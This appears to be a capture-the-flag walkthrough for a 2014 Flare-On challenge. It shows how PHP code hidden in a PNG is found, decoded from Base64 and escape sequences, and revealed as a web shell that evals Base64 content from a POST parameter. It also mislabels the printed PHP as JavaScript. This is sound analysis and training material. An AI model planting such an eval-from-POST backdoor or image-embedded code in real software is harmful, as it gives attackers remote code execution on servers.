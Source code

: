 # Flare-On Challenge Walkthrough 2014: **`home.html`** Analysis

In this walkthrough, we’ll break down the process of analyzing the `home.html` file from the Flare-On challenge.  We will uncover the hidden content and extract the payload by utilizing Python scripts along with a hex editor.

## Table of Contents
- [Introduction](#introduction)
- [Step 1: Inspect `home.html` with Browser Developer Tools](#step-1-inspect-homehtml-with-browser-developer-tools)
- [Step 2: Examine `flare-on.png` for Embedded PHP Code](#step-2-examine-flare-onpng-for-embedded-php-code)
- [Step 3: Decode the PHP Code and Extract JavaScript](#step-3-decode-the-php-code-and-extract-javascript)
- [Step 4: The Flag](#step-4-the-flag)
- [References](#references)
---

## Introduction

In this challenge, the goal is to decode hidden content embedded in a PNG file via PHP code. The content is encoded in Base64 and contains escape sequences that must be resolved to reveal the final JavaScript code.

We'll walk through the steps of inspecting `home.html`, extracting PHP code from the `flare-on.png`, decoding Base64 strings, and decoding escape sequences to uncover the JavaScript payload.

---

## Step 1: Inspect `home.html` with Browser Developer Tools

![1 - Home Page](images/1-home-page.png)

1. **Open `home.html` in a browser**:
   - With developer tools enabled, open the `home.html` file.
   - Upon inspection, you'll notice that the HTML contains an image tag for `img/flare-on.png` and an embedded PHP script.
   - Specifically, you’ll see an unconventional PHP `include` statement inside a `<script>` tag, like this:

     ![2 - Inspected HTML](images/2-inspected-html.png)

2. **What this indicates**:
   - This suggests that PHP code might be embedded in the `flare-on.png` image file. We’ll need to analyze the image to extract the PHP code and proceed with further decoding.
   - The next step involves inspecting `flare-on.png` in a hex editor to extract the embedded PHP code.

---

## Step 2: Examine `flare-on.png` for Embedded PHP Code

1. **Open `flare-on.png` in a hex editor**:
   - We open `flare-on.png` using a hex editor. The goal here is to search for embedded PHP code.
   - Search for the string `<?php` to locate where the PHP code begins in the image.

2. **Extract the PHP code**:
   - The PHP code starts at offset `0x19c4` in the file.

     ![3 - PHP in Png](images/3-php-in-png.png)
     
   - Copy the PHP code from this offset and save it to a new file called `extracted_php.php`.

3. **PHP Code Breakdown**:
    - Contains an array `$terms` with 80 characters and another array `$order` that defines the order in which these characters will be rearranged to form a string.
    - Uses the `$order` array to shuffle characters from the `$terms` array to create a string. The result is stored in the `$do_me` variable, which will be executed later as part of the hidden payload.
      
      ![5 - Extracted PHP](images/5-extracted-php.png)
---

## Step 3: Decode the PHP Code and Extract JavaScript

1. **Python Conversion**:
   - After extracting the PHP code, we convert it into Python. The goal is to simulate the PHP array shuffling process and extract the resulting string (the `$do_me` variable).
   
   Here is a simplified breakdown of the Python script `converted_php.py`:
   
   ```python
   terms = ["..."]  # 80 characters from PHP code
   order = [...]  # Indices for the character order

   do_me = ''.join([terms[i] for i in order])
   print(do_me)
   ```

   The Python script prints the resulting value of `$do_me`, which contains a Base64-encoded JavaScript code.
   
      ![4 - Printed Do_me](images/4-printed-do-me.png)
   
3. **Base64 Decoding**:
   - We then use the Python script `convert_js.py` to decode the Base64-encoded JavaScript.
   - The process involves:
     - Decoding two Base64-encoded strings: one for `$_` and another for `$__`.
     - Combining both strings to form a partially obfuscated JavaScript code.

   - The Python script also decodes hexadecimal (`\x4F`) and decimal (`\97`) **escape sequences** in the decoded code. This results in the following final JavaScript code:

   ```javascript
   if (isset($_POST["a11DOTthatDOTjava5crapATflareDASHonDOTcom"])) { 
       eval(base64_decode($_POST["a11DOTthatDOTjava5crapATflareDASHonDOTcom"])); 
   }
   eval(base64_decode($_));
   eval($code);
   ```

   This JavaScript contains functionality to execute Base64-decoded content received through a POST request, which is a typical web-based payload.

---

## Step 4: The Flag

The de-obfuscated JavaScript reveals an important action: it checks for a specific POST request and decodes its Base64 content. This can be used to trigger further actions on the server or extract sensitive information.

  - **Flag:**
    ```
    Original: a11DOTthatDOTjava5crapATflareDASHonDOTcom
    Readable: a11.that.java5crap@flare-on.com
    ```

---

## References
- **Hex Editor**: Allows you to see the raw binary content of a file, making it possible to find hidden data or scripts embedded within files.

- **Browser Developer Tools**: Provide an easy way to explore the structure and content of a web page.

- **Base64 Decoder**: Often used to obfuscate data, and decoding it reveals the original payload.

- **Escape Sequence Decoder**: The final step involved decoding hexadecimal and decimal escape sequences.
   - These sequences represent characters encoded in a way that obfuscates the code further, and resolving them makes the code readable and executable.
